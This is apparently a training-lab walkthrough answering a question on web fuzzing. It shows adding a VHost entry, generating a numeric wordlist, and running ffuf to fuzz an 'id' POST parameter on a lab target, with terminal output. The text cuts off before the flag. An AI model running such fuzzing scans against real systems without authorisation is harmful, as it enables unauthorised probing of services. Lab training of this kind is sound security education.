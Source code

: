## Question 1

### "Try to create the 'ids.txt' wordlist, identify the accepted value with a fuzzing scan, and then use it in a 'POST' request with 'curl' to collect the flag. What is the content of the flag?"

After spawning the target machine, students need to add the `admin.academy.htb` VHost entry in `/etc/hosts`:

Code: shell

```shell
sudo sh -c 'echo "STMIP admin.academy.htb" >> /etc/hosts'
```

```
┌─[us-academy-1]─[10.10.14.32]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sudo sh -c 'echo "139.59.180.127 admin.academy.htb" >> /etc/hosts'
```

Then, students need to make a wordlist of numbers from 1 to 1000:

Code: bash

```bash
for i in $(seq 1 1000); do echo $i >> ids.txt; done
```

```
┌─[us-academy-1]─[10.10.14.32]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ for i in $(seq 1 1000); do echo $i >> ids.txt; done
```

Subsequently, students need to perform value fuzzing on the `id` POST parameter, starting with determining the size of a request having an erroneous value for the `id` parameter:

Code: shell

```shell
ffuf -w ids.txt:FUZZ -u 'http://admin.academy.htb:STMPO/admin/admin.php' -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'
```

```
┌─[us-academy-1]─[10.10.14.32]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ffuf -w ids.txt:FUZZ -u 'http://admin.academy.htb:31865/admin/admin.php' -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded'

29                      [Status: 200, Size: 768, Words: 219, Lines: 54]
1                       [Status: 200, Size: 768, Words: 219, Lines: 54]
19                      [Status: 200, Size: 768, Words: 219, Lines: 54]
30                      [Status: 200, Size: 768, Words: 219, Lines: 54]
32                      [Status: 200, Size: 768, Words: 219, Lines: 54]
18                      [Status: 200, Size: 768, Words: 219, Lines: 54]
33                      [Status: 200, Size: 768, Words: 219, Lines: 54]
40                      [Status: 200, Size: 768, Words: 219, Lines: 54]
2                       [Status: 200, Size: 768, Words: 219, Lines: 54]
<SNIP>
```

